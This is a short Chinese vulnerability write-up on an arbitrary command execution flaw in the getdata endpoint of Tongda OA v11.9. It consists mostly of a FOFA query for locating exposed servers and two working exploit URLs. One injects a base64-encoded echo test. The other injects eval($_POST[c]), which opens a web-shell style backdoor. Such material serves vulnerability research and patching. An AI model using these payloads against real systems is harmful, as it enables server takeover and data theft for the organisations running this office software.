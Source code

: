 # 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

```
通达OA v11.9
```

## FOFA

```
app="通达OA网络智能办公系统"
```

## 漏洞复现

登录页面

![image-20221008102828374](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081028459.png)

验证POC

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![image-20221008102844264](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081028320.png)

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```